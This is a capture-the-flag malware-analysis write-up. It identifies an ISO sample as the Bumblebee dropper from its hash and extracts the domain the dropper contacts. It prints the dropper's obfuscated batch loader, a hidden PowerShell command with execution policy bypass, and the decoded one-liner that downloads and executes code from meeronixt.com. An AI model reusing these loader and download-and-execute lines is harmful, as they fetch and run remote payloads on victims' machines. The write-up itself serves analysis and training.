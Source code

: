 # Transformers #2


## Presentation

Can you identify to wich malware dropper the iso file is related ? Beside, it looks like the dropper is contacting a remote ressources, can you extract the domain name the dropper tries to reach ?


TLP:GREEN/PAP:AMBER

Format : **HERO{Dropper Name;domain}**
Example : HERO{Dropper;abcd.ef}

## Solve


To find the name of the famous dropper,you can search by:

* the name of the file ( bad idea but it's a CTF so soon or later someone would have push the file with the name I gave on any sandbox/virustotal )

* the hash of the .iso, or the .lnk (recommended way )

```
$ sha256sum monthly-report-S3-2024.iso 
b824715290b48f5eaea19954e7d8825110dd6bfc99158154a4b1452ce1b3b860  monthly-report-S3-2024.iso
```

​	

* on google 

![image-20241027205948369](./asset/image-20241027205948369.png)

First page name in the link

* Search the hash in malware sample public database like malware bazaar

https://bazaar.abuse.ch/browse.php?search=sha256%3Ab824715290b48f5eaea19954e7d8825110dd6bfc99158154a4b1452ce1b3b860

![image-20241027210613024](./asset/image-20241027210613024.png)

**Dropper name** => Bumblebee

Then, to understand which domain is contacted, you can proceed either staticaly, either dynamicaly ( in a sandbox!!! )

Static analysis :


```
$ strings monthly-report-S3-2024.iso
[some garbage]
...
@echo off
:drzclsxvupw
set nqudlc=q
:jgvinpsutyw
set fiezbj=a
:rxqbgdzfitm
set msonvq=y
:nrsowealbgt
set dhltmr=u
:kmrdcueqphz
set sgcuek=m
:oxwnaylmrbe
set vzbtmg=z
:zkcdvpsuyla
set fysdib=o
:xfhmgkeciqd
set wvopta=j
:nzywfxjsarm
set skuweh=s
:udpthcvznyf
set dayvow=r
:ksxpbguolhi
set qtlekd=w
:ezkafqrjmsg
set ynwiok=f
:tlubafkrcjq
set fblvmd=b
:miydogxwuze
set nryihu=p
:shbclnfxmug
set msotjd=v
:vrkdhtwycse
set beicuz=d
:mlriuxhvktd
set vmefxs=e
:gwflzjxyrke
set yplurb=c
:iaqcolgbmjx
set koxzju=n
:uwfesitardk
set ncbdqi=t
:yoclxjvthns
set wkcnoz=i
:bmuzlkxjgdo
set qawudo=l
:cihavwbtjxs
set tbilrv=h
:dkyqpfrguew
set wgtpdy=k
:jdoxmbsckre
set uhafms=x
:itjnoalbxfs
set ojuvcf=g
:hmdvrkgajxo
:X%yplurb%M%fblvmd%RDHB%nryihu%Z%beicuz%%nryihu%UW%qtlekd%WVA%msonvq%%wvopta%%tbilrv%I
%nryihu%%fysdib%%qtlekd%%vmefxs%%dayvow%%skuweh%%tbilrv%%vmefxs%%qawudo%%qawudo% -%qtlekd% %tbilrv%%wkcnoz%%beicuz%%beicuz%%vmefxs%%koxzju% -%koxzju%%fysdib%%nryihu% -%vmefxs%%nryihu% %fblvmd%%msonvq%%nryihu%%fiezbj%%skuweh%%skuweh% -%vmefxs%%koxzju%%yplurb% SQBFAF%ojuvcf%AIAA%fysdib%AE4AZQB3AC0AT%qtlekd%B%wkcnoz%AG%fysdib%AZQB%wvopta%AHQAIABOAGUA%beicuz%AA%dhltmr%AF%yplurb%AZQB%wkcnoz%AGMA%fblvmd%AB%nryihu%AGUA%fblvmd%%ojuvcf%B0AC%wgtpdy%AL%ojuvcf%B%wgtpdy%AG8A%beicuz%%qtlekd%B%dhltmr%AG%qtlekd%A%fblvmd%%qtlekd%B%tbilrv%AGQA%yplurb%%qtlekd%B0AHIA%fiezbj%QB%dhltmr%AG%yplurb%AKAA%wkcnoz%AG%ojuvcf%A%beicuz%AB0AHAAO%ojuvcf%A%msotjd%AC8A%fblvmd%QB%qawudo%AGUA%yplurb%%ojuvcf%B%msotjd%AG4A%fiezbj%QB4AHQAL%ojuvcf%B%wvopta%AG8A%fblvmd%QA%msotjd%AG%yplurb%AYQB0AGUAI%ojuvcf%A%nryihu%AA==
:EC%nryihu%%vzbtmg%%dhltmr%B%fysdib%V
...
```

Desofuscation:

```
powershell -w hidden -nop -ep bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbQBlAGUAcgBvAG4AaQB4AHQALgBjAG8AbQAvAGcAYQB0AGUAIgApAA==
```

```
$ echo -n "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbQBlAGUAcgBvAG4AaQB4AHQALgBjAG8AbQAvAGcAYQB0AGUAIgApAA==" | base64 -d
IEX (New-Object Net.Webclient).downloadstring("http://meeronixt.com/gate")
```

Dynamic analysis: 

public report :  (https://any.run/report/b824715290b48f5eaea19954e7d8825110dd6bfc99158154a4b1452ce1b3b860/6a6ae9e1-f1ff-46dd-b6ef-2ebe849fea9e) 



**Remote ressources**  => meeronixt.com


flag : HERO{Bumblebee;meeronixt.com}


## Ressources 

* https://www.misp-project.org/taxonomies.html#_pap
